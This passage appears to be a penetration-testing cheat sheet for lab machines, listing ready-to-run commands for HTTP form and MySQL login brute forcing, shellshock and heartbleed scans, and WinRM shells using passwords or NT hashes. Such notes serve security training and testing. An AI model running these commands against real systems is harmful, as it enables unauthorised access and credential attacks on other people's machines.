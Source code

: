 Wordlist creation:
```bash
cewl -e -a http://target:80/ -w wordlist.txt
```

Form bruteforce:

Using `hydra`:
```bash
hydra -L usernames.txt -P passwords.txt <target> http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=^USER^&Password=^PASS^:Login Failed"
```

Using `ffuf`:
```bash
ffuf  -w /usr/share/wordlists/rockyou.txt -u http://nineveh.htb/department/login.php -X POST -d "username=admin&password=FUZZ" -fr "Invalid Password" -H "Content-Type: application/x-www-form-urlencoded" -t 100        
```

Testing for shellshock:

```bash
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
```

Testing for heartbleed:

```bash
nmap -p 443 --script ssl-heartbleed <target>
```

### Port 3306 (MySQL)

Login bruteforce:
```bash
hydra -L usernames.txt -P passwords.txt <target> mysql
```

Accessing:
```bash
mysql -h <target> -uroot -ptoor
```

### Port 5985 (WinRM)

Getting a shell:
```bash
evil-winrm -i <target> -u <username> -p <password>
evil-winrm -i <target> -u <username> -H <NT hash>
```

Login bruteforce:
```bash 
git clone https://github.com/mchoji/winrm-brute
cd winrm-brute
bundle config path vendor/bundle
bundle install
bundle exec ./winrm-brute.rb -U users.txt -P passwords.txt 10.0.0.1
```
